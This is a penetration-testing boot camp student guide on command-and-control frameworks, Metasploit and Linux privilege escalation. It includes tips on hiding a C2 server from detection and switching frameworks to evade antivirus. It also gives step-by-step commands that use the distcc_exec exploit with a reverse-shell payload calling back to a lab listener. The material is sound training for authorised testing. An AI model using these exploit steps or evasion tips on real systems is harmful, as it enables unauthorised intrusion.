









## 16.3 Student Guide: Exploring Exploitation

### Overview

In this lesson, you will continue in the Exploitation phase of a pen testing engagement, and you will learn about **command and control (C2)** and how a penetration tester uses it. You will also be introduced to your first exploitation and C2 framework, **Metasploit**. Then, you will use Metasploit for automating exploitation to gain a reverse shell on a machine and perform privilege escalation on that machine. 

### Class Objectives

By the end of class, you will be able to:

- Understand what command and control (C2) is and how it fits into a penetration tester's toolkit.
- Use Metasploit to automate exploitation activities.
- Explain what privilege escalation is and how it fits into the attack cycle.
- Perform basic privilege escalation tasks.

### Slideshow

The lesson slides are available on Google Drive here: [16.3 Slides](https://docs.google.com/presentation/d/1bJi5vAyZoZXCJBuVOCL9o5wRfMhThK19CD2VEHeeUng/edit#slide=id.g4789b2c72f_0_6).

-------

### 01. Welcome and Class Overview (0:05)

Before beginning, let's review the important concepts that we covered on Day 2:
- **Initial access** is a MITRE tactic that covers methods to gain access into a target's system.
- **Phishing** is the most commonly used initial access method. It leverages human error by crafting misleading and convincing fraudulent emails.
- **Remote services though valid accounts** is another initial access method, where the attacker uses existing real user accounts to gain access through a remote service, such as VPN.
- **Scanning** is the second phase after Reconnaissance. Scanning utilizes tools to gather information such as network information and potential vulnerabilities.
  - We often utilize the tools **Hping**, **Nmap**, **Zenmap**, and **Nessus** to conduct scanning. 
  - **NSE (Nmap scripting engine)** scripts are scripts that work with Nmap or Zenmap and are commonly used to test whether a service is vulnerable to an exploit. 
- **Exploit-DB.com** is a popular online database that contains publicly disclosed exploits, cataloged according to their Common Vulnerability and Exposure (CVE) identifier.
  - **SearchSploit** is a command-line utility for Exploit-DB that allows you to take an offline copy of the entire Exploit Database with you wherever you go.
- After determining which exploits to use, we attempted them in the **Exploitation** phase.
  - Exploited access to the machine is typically granted in the form of terminal access, known as a **shell**.
  - Two types of shells are **bind** and **reverse**.
     - A **bind shell** is where the remote host opens a port for the current host to connect to. The current, local host then connects to that remote host's port.
     - A **reverse shell** is where the remote host connects back to a port on the local host.

On Day 1, we introduced the five stages of a pentest engagement:

1. Planning and Reconnaissance
2. Scanning
3. Exploitation
4. Post Exploitation
5. Reporting

We ended Day 2's lesson by beginning the Exploitation phase (Phase 3) and manually exploiting a remote host's vulnerable service to obtain a reverse shell.

 - Today, we will continue to explore the Exploitation phase and then continue to the Post Exploitation phase today and in the next lesson.

Today's lesson will proceed as follows:

- We will begin by covering command and control (C2) and Metasploit.
- Then, we will use Metasploit to exploit another vulnerability and gain another shell on a remote host.
- Lastly, the day will conclude with a privilege-escalation activity to escalate from a low-privileged user to root. 

### 02. Command and Control 

We concluded the last class by gaining one **shell** on our target network.
- In a real penetration test, we will often obtain several remote shells from many different computers. 
  
Having separate terminals for each shell can be cumbersome and confusing. To organize and simplify the process of conducting an assessment, pen testers often utilize a **command and control** framework.

**Command and Control**

- **Command and control** (or **C2** for short) is a framework that consists of tools and techniques that attackers use to maintain communication with compromised devices following initial exploitation.
- C2 frameworks come in various languages and are developed by individuals and companies alike.
- The majority of C2 frameworks are open source, meaning that they're free and the public can read the source code. But a few are closed sourced and must be paid for.
- We will learn about a variety of C2 frameworks, but for the purposes of this class, we'll use the **Metasploit** framework.
   - **Metasploit** is a popular and open source C2 framework created by Rapid7.

C2 frameworks work within a **C2 architecture**.
- The C2 architecture consists of:
   - **(1) C2 server**: The attacker's server, where the attacker communicates with the compromised machines.
   - **(2) C2's agents**: The payload that is run on the compromised machine to open up a connection back to the C2 server.
 - In summary, a **C2 architecture** is how the C2 server is set up and how the agent communicates back to the C2 server.

 - To compromise a machine, the C2 agent must be running on it.
 - Fortunately, most C2 frameworks have a built-in capability to generate an agent. 
   - The agent typically runs as a process and needs to run continuously for communication to flow consistently between it and the C2 server. 
   - Metasploit's agent is built into the code of its exploits.
 - Once the machine has the C2's agent running on it, it is compromised – sometimes referred to as a **zombie**.
 - Multiple zombies form a **botnet**. 
 - All compromised machines are controlled through the single C2 server, as the following images show:

#### Concealing the C2 Server

One of a penetration tester's important tasks is to conceal the C2 server from detection.

C2 architecture has evolved significantly over the past decade, so that the true C2 server may be concealed through various methods.
  
- **Method 1 - Redirection Through Proxies**
  - In our class activity, we will use a host that directly connects to the C2 server for simplicity.
    - But in a real penetration test, that would be a poor decision, because a simple packet collection would detect the C2 server IP, which could be blocked.
    - To avoid this detection, a pen tester could have the C2 redirected through proxies.

- **Method 2 - Utilizing Multiple Channels**
  - Another method that most C2 frameworks support is having the agent use multiple ways, or **channels**, to communicate back to the server.
  - A compromised host can communicate using either a single channel or several channels over various protocols. Some of these protocols include:
    - DNS
    - HTTP
    - HTTPS
    - TCP (arbitrary port)
    - SMB
  - The protocol used is dependent on the target's network firewall egress rules. 
    - Most egress rules allow HTTP/S and DNS outbound, which is why those channels are commonly used for C2 communication. 
    - In our exploitation activity, we exploited a service on port 21, which then used raw TCP packets to communicate. 

- **Method 3 - Utilizing Multiple C2 Frameworks**
  - While we will only use the Metasploit C2 framework in this class, most C2 frameworks are open source, allowing you to use them freely. 
    - It's good practice to have multiple C2 frameworks available for a penetration test or red team engagement for the following reasons:
    - C2 frameworks each have their own "fingerprints" or "indicators of compromise."
      - For example, Metasploit's payload and agent generator, `msfvenom`, generates a payload in a specified format (e.g., `.exe`). These payloads have well-known signatures, and many antivirus products will alert on them and kill the payload. 
      - In an event where a certain AV product is killing the payload during or after execution, it may be a good idea to switch C2 frameworks.
    - Additionally, not all C2 frameworks support every OS. 
      - It's good to have a secondary C2 framework that supports an OS if the primary C2 framework doesn't support it. 

**C2 Matrix demonstration**

To select the best C2 framework for a given project's requirements, a penetration tester could use the website [C2 Matrix](https://www.thec2matrix.com/matrix).

For this demonstration, we've been tasked with selecting a C2 framework with the following requirements:
- It must support the channels of HTTP and SMB.
- It must support Windows.
- It must provide logging.

In this demo, we will open up the C2 Matrix website and determine which C2 framework supports all of these requirements. 

1.  Navigate to the [C2 Matrix website](https://www.thec2matrix.com/matrix), as the following image shows:

    

2.  Note that the following tabs, found at the top of the webpage, provide information about the various matrices:
   - **Information**: Contains the version number reviewed.
   - **Code + UI**: Contains the server and agent language used.
   - **Channels**: Contains the supported channels.
   - **Agents**: Contains the supported OS.
   - **Capabilities**: Contains other available capabilities.
   - **Support**: Contains the additional support provided.

3. Since we need a C2 framework that supports HTTP and SMB, we will select the **Channels** tab.  
   -  **Cobalt Strike** supports HTTP and SMB, as the following image shows:

    

4. Next, since we need to find a framework that supports Windows, we will go to the **Agents** tab.
   -  **Cobalt Strike** also supports Windows, as the following image shows:

    
    
5. Finally, since we need to find a framework that supports logging, we will go to the **Capabilities** tab.   
   -  **Cobalt Strike** also supports logging, as the following image shows:

    

By using the C2 Matrix website, we were able to determine that **Cobalt Strike** supports all of our requirements.

  - Note that sometimes several frameworks could be utilized for a given engagement.

### 03. C2 Research 

- [Activity File: C2 Research](activities/01_C2_Research/Unsolved/README.md)

### 04. C2 Research Review 

- [Activity File: C2 Research](activities/01_C2_Research/Solved/README.md)

### 05. Metasploit

As shown in the research activity, there are many possible C2 choices. We will focus on **Metasploit**.

- Metasploit is a C2 framework that was created in 2003 and is owned by the company Rapid7.
- There's a free version, which comes installed on Kali by default, and a professional version, which expands on its exploitation and C2 capabilities.
- Metasploit contains a suite of tools (a program comprised of multiple tools) for hacking servers and other networked devices.
- Metasploit also has tools for port and service scanning as well as enumeration. 
- In addition to exploitation and scanning, Metasploit lets you save the results of scans to a database for easy review.

The main Metasploit tools that we'll focus on include:
- **(1) MSFconsole**: The main interface for Metasploit. It offers a centralized console to access all the options and modules. MSFconsole runs on your local machine, not on the machines you compromise.
- **(2) Meterpreter**: A Linux-style shell that Metasploit launches when you successfully break into a target machine. Unlike MSFconsole, Meterpreter runs on the machines you compromise, not on your local machine.
- **(3) `msfvenom`**: Allows the operator to craft the malicious agents and payloads that will be used to communicate back with Metasploit. These agents and payloads can be created in several formats, including `.exe`, `.py`, bash, and much more. 

In summary, you will use MSFconsole to find vulnerable machines and gain access to them. 
  - After you've exploited them, you'll use Meterpreter on the compromised machine. 

Today, we will focus on MSFconsole. We'll explore Meterpreter and `msfvenom` in depth in future classes.

**Metasploit Modules**

- MSFconsole is a unified interface for a variety of functions. Each of these functions is called a **module**.

    

- MSFconsole uses five kinds of modules:

  - **Auxiliary modules**: Used for information gathering, enumeration, and port scanning. Can also be used for things like connecting to SQL databases and performing man-in-the-middle attacks.
  - **Exploit modules**: Generally used to deliver exploit code to a target system.
  - **Post modules**: Offers post-exploitation tools such as the ability to extract password hashes and access tokens. Provides modules for taking a screenshot, keylogging, and downloading files. You'll explore these during the next class. 
  - **Payload modules**: Used to create malicious payloads to use with an exploit. If possible, the aim is to upload a copy of Meterpreter, which is Metasploit's default payload.
  - **Encoder modules**: Encoders ensure that payloads make it to their destination intact.

The choice of module depends on what you're trying to accomplish. 
- For example:
  - If recon is the goal, then an **auxiliary module** is typically the right solution, as they're primarily for recon, scanning, and fuzzing. 
    - Note: fuzzing is the process of providing valid, invalid, and random input into a program or process in attempts to make the program or process behave unexpectedly.
  - If the goal is to exploit a vulnerability, then an **exploit module** is appropriate, as it actively tries to exploit the vulnerability.

### 06. Metasploit Demonstration

Now, we'll start up and use Metasploit. 

- We have determined through a previous scan that FTP may be running.
- So in this demonstration, we will complete the following five steps:
  -  (1) Launch MSFconsole.
  -  (2) Search for the commonly used auxiliary module **`ftp/anonymous`**, as this module can indicate if the target allows anonymous logins via FTP.
  -  (3) Select the `ftp/anonymous` module.
  -  (4) Set the required values for the `ftp/anonymous` module.
  -  (5) Execute the module.

We're using an auxiliary module in this case, the exploit and post modules have similar setup requirements.

1. In Kali, open a new terminal and launch Metasploit's MSFconsole: `msfconsole`.

2. At the prompt, search for all auxiliary modules with the following command: `show auxiliary`.
   -  The `show` command lists all of the available modules for that module type.
     - For example, if you wanted to see all exploit modules, you would run `show exploits`.

3. You can search for modules based on keywords; for example, if we wanted to search for `ftp/anonymous`, we'd enter the following: `search ftp/anonymous` 
   - This returns the following auxiliary module: `auxiliary/scanner/ftp/anonymous`.

4. To select (or to *use*) this module that will scan for FTP anonymous access, enter: `use scanner/ftp/anonymous`.
   - Note that we chose this module because we want more information about the FTP service on the target. 

5. You have successfully selected this module when you see the following prompt: `auxiliary(scanner/ftp/anonymous) > `

6. Now, list the information about the module with the `info` command, as the following image shows:

   

     - The description gives a basic overview of what the module does. 
     - Under **Basic Options** is a table of settings and their values. 
     - Settings will often have default values already set. Depending on your use case, you may need to change those values.

   - Note the **Required** column.
     - If this column is set to **yes**, it means that the property must have a value for the module to work. 
     - In this module's case, RHOSTS is blank, meaning that we are required to set it before we can run the module. 
     - **RHOSTS** stands for "remote hosts" and will be our target's IP address.

7. We now need to set the RHOSTS value to the remote host's IP address that we scanned before. 
   - Run the following: `set RHOSTS 172.x.x.x` 

8. To validate that the RHOSTS value has been set, we can either run `info` again, or just type `options` and press **Enter** to bring up only the options table, as the following image shows:

   

9. Now that all the required fields are set, we are ready to launch the module!
   - We can run the module with either the `exploit` or `run` command.
   
10. Run the command, and note the results:
   - The module successfully discovered that the remote host has FTP running and is allowing anonymous READ access.
     - This means that any unauthenticated user can read files in the FTP directory on that machine. 

Do you see any other useful information?
- We are also able to determine the version of the FTP service, VSFTPD 2.3.4, which may be vulnerable. 

**Summary**

- **Metasploit** is a popular C2 framework that contains a suite of tools for enumerating and exploiting servers and other networked devices.
- The main tools of Metasploit are:
  - **(1) MSFconsole**: The main interface for Metasploit, which runs on your local machine.
  - **(2) Meterpreter**: A Linux-style shell that runs on the machines you compromise.
  - **(3) `msfvenom`**: Allows the operator to craft the malicious agents and payloads that will be used to communicate back with Metasploit.
- MSFconsole is a unified interface for a variety of functions. Each of these functions is called a **module**.
- The five main types of Metasploit module are:
  - **(1) Auxiliary modules**: Used for information gathering, enumeration, and port scanning.
  - **(2) Exploit modules**: Generally used to deliver exploit code to a target system.
  - **(3) Post modules**: Offers post-exploitation tools.
  - **(4) Payload modules**: Used to create malicious payloads to use with an exploit.
  - **(5) Encoder modules**: Used to ensure that payloads make it to their destination intact.
- Key commands to know include:
   - `msfconsole`: Launches MSFconsole from the command line.
   - `show` + the module type: Displays all the available modules. (For example: `show auxiliary`)
   - `search` and then a keyword: Searches for modules based on a keyword.
   - `use` + module name: Selects a specific module. (For example: `use scanner/ftp/anonymous`)  
   - `info`: Displays the module details as well as the required and optional options.
     - OR `options`: Just displays the options available for the module.
   - `exploit` OR `run`: Runs the module.

### 07. Metasploit Activity

- [Activity File: Metasploit](activities/02_Metasploit/Unsolved/README.md)

- [Cheat Sheet: Metasploit](resources/Metasploit-Cheat-Sheet.jpg).

### 08. Metasploit Activity Review

- [Solution File: Exploitation](activities/02_Metasploit/Solved/README.md)

### 09. Class Do: Post Exploitation 

- So far,  we introduced C2 frameworks and how penetration testers utilize their tools and features to conduct various aspects of penetration tests.
- We then learned about a popular C2 framework called **Metasploit**, and how it can be used to:
    - Search for potential exploits.
    - Run the potential exploits.

The last activity you completed was part of the **Exploitation** phase.
- Getting a shell on a machine during that phase is only the first part of having full control over the system. 
- Next, we will focus on the **Post Exploitation** phase.

**Post Exploitation** is the next phase after Exploitation. It involves any actions performed *after exploitation*. 
- It consists of multiple steps and includes three common tasks:
   - **(1) Enumeration and searching for useful data**: Similar to the enumeration process during the Reconnaissance phase, except we are enumerating and searching for data from *inside* the target after it has been exploited.
     - This means we search for any useful information that's available from inside the target, including:
       - Current user context (name, groups, ID, etc.)
       - List of users on the machine (logged in and not)
       - Current user access (Can they read the majority of files on the machine?)
       - Identification of any defensive countermeasures (antivirus, logging, endpoint detection, and response solutions, etc.)

   - **(2) Persistence**: The process of attempting to maintain long-term access to your target.
  
   - **(3) Privilege escalation**: The process of escalating privileges from a less privileged user to a more privileged user (or a low-privilege to high-privilege user).

#### Privilege Escalation

When pen testing, it's very common to land on a machine as a low- or no-privilege user. 
- In this case, an important task for the pen tester is to perform privilege escalation. 

Note the following differences between the tasks you can complete based on your privileges:
 
 - Much like the Reconnaissance phase is split between external and internal recon, the Post Exploitation phase is split between low-privilege post-exploitation tasks and high-privilege post-exploitation tasks.

- **Low-privilege post-exploitation tasks** require minimal permissions. These include:
  - Gathering system/OS details.
  - Gathering services and versions.
  - Getting a list of users and groups.

- **High-privilege post-exploitation tasks** require **sudo** or **root** privileges. These include:
  - Reading sensitive files, such as `/etc/shadow` and SSH keys.
  - Creating users and assigning them to privileged groups.
  - Installing new services.
  - Majority of persistence tasks.

Note that the high-privilege user has more powerful capabilities, so it is important for a penetration tester to try and obtain these additional privileges.

As previously mentioned, privilege escalation is the method of escalating privileges from a less privileged user to a more privileged user. 
- Note that this does not necessarily mean escalating to root. 
- For example, if a target user is in the sudoers group, escalating to that user is almost as good as escalating to root. 

#### Tips for Successful Privilege Escalation

- **Utilize information gathered during enumeration.**
  
   - The information gathered during enumeration can help with conducting privilege escalation.
   - Gathering information allows us to identify a potential path to privilege escalation. In Linux, some common paths of privilege escalation include:
     - Abusing current access (e.g., sudo group, writeable files, read access to sensitive files).
     - Exploitation of software (some services may run as a higher privileged user).
     - Utilizing weak passwords of privileged users.

- **Use the path of least resistance.**
 
   - One key concept in privilege escalation (and hacking in general) is to follow the path of least resistance. 
     - In other words, search for the easiest possible way to obtain your objective.
     - For example, some users keep passwords in a text file. Instead of hijacking a user’s web browsing session and keylogging their strokes in an attempt to gather passwords, you can just find the plain text file. 
        - Finding passwords in files or abusing functionality (e.g., scripts run as root but world-writable) is also stealthier, which is a key component of red teaming. 

- **Exploit vulnerable software.**

   - Exploitation of vulnerable software is often suggested as a last step due to the nature of privilege-escalation techniques. 
     - Often, it involves abusing a service that has the potential to crash and bring down the machine. 
     - Therefore, finding as much information as possible on the machine during enumeration is key to help find any other possible privilege-escalation paths.

#### MITRE and Privilege escalation

- Privilege escalation is a large part of pen testing and has its own MITRE tactic - https://attack.mitre.org/tactics/TA0004/.
  - Open the MITRE page for privilege escalation and try to identify any techniques that may pertain to Linux machines.
  - E.g.: [T1078](https://attack.mitre.org/techniques/T1078/) - if an attacker cracks a password to a valid account, it can be used to escalate privileges.

**Summary**

- **Post Exploitation** is the next phase after Exploitation. It involves any actions performed *after exploitation*.
- Post Exploitation includes three common tasks:
   - **(1) Enumeration and searching for useful data**: Similar to the enumeration process during the Reconnaissance phase, except we are enumerating and searching for data from *inside* the target after it has been exploited.
   - **(2) Persistence**: The method of attempting to maintain long-term access into your target.
   - **(3) Privilege Escalation**: The method of escalating privileges from a low-privilege to high-privilege user.
- The post-exploitation tasks that a pentester conducts can either be **low-privilege** or **high-privilege**.
- For successful Post Exploitation, pentesters should:
   - **Utilize information gathered during enumeration.**
   - **Use the path of least resistance.**
   - **Exploit vulnerable software.**

In the next activity, you will attempt to find a way to escalate your privileges from the **daemon** user to a higher privileged user.
- First, we need to be at the same starting point on the remote machine, so we'll complete a setup activity together as a class. 

#### Post Exploitation Activity Setup

We will first set up a low-privileged shell using Metasploit, which you will then use for post-exploitation and privilege-escalation techniques. 

1. In Metasploit, search for `distcc`, and select it. 

   - `search distcc`. 
   
   - `use 0` or `use exploit/unix/misc/distcc_exec`.

   

   -  `distcc` is a tool for compiling code. It runs as a daemon with low permissions, and this version is vulnerable. 

2. List the options of the module, and note that we need to set RHOSTS again as it is a required option.

   - `set RHOSTS 172.22.117.150`

3. Before running the module, we need to set a payload. List the available payloads.

   - `show payloads`
   
   - Note the **Description** column, as it shows in parentheses how the payload is communicating.

4. Select the **reverse** payload. Be sure NOT to select **reverse_bash**, or the exploit will not work.

   - `set PAYLOAD cmd/unix/reverse`
   
   - Note that we are now using the PAYLOAD with our EXPLOIT!

5. List options again, and note that there's a new blank setting, LHOST. This is our "listening host," which is the host that listens for the payload communication. In this case, our LHOST is the machine that we're currently operating on. Use `ifconfig` to show your IP (eth0) and set LHOST to that IP.

   - `set LHOST 172.22.117.100`

   

6. Run the module.

   - `exploit` OR `run`

   

7. Check your current user via `id`.

   - `id`

   - Note that we were able to obtain a low-privileged shell with an exploit.

   - Leave the current window and Metasploit session open, as you will use it in the next activity.

### 10. Privilege Escalation Activity 

- [Activity File: Privilege Escalation](activities/03_PrivEsc/Unsolved/README.md)

### 12. Privilege Escalation Review 

- [Solution File: Privilege Escalation](activities/03_PrivEsc/Solved/README.md)

-------

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.  
